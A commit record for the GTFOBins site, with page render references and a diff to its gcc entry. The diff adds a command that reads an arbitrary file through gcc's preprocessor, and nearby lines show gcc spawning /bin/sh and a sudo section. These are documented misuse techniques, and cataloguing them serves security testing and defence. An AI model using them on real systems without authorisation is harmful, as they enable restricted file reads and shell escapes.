

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/gcc.md, in a window 1280 px wide. Shown: the top 726 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add gcc file read
This is an improved version with respect to #138.

Close #138.

```diff
--- a/_gtfobins/gcc.md
+++ b/_gtfobins/gcc.md
@@ -1,5 +1,9 @@
 ---
 functions:
+  file-read:
+    - code: |
+        LFILE=file_to_read
+        gcc -x c -E "$LFILE"
   shell:
     - code: gcc -wrapper /bin/sh,-s .
   sudo:
```
